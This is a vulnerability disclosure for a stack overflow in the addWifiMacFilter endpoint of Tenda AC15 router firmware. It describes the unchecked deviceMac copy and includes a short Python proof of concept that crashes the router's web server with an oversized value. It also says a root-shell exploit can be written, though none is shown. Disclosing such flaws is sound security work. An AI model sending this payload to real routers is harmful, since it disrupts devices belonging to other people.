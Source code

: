 ## Tenda _US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin stack overflow vulnerability

A stack overflow vulnerability in the component /goform/addWifiMacFilter of Tenda AC15V1.0BR_V15.03.05.19 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.tenda.com
- Firmware download address ：https://www.tenda.com.cn/download/detail-2680.html

## 1. Affected version

![bin](bin.png)Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

Vulnerability occurs in /goform/addWifiMacFilter. The contents obtained by the deviceMac parameter are passed to v11, and then the contents matched by v11 and put into the nptr without size checking, resulting in a stack overflow.

![pic1](pic1.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the EMUX(https://github.com/therealsaumil/emux) simulation firmware
2. Attack with the following POC attacks，then web server will crash and reboot

```python
import requests

url = 'http://IP:port/goform/addWifiMacFilter'

headers = {"Cookie": "password=inputyourcookie"}
data = {
    'deviceMac': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
print(r.text)
```

![pic2](pic2.png)

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell


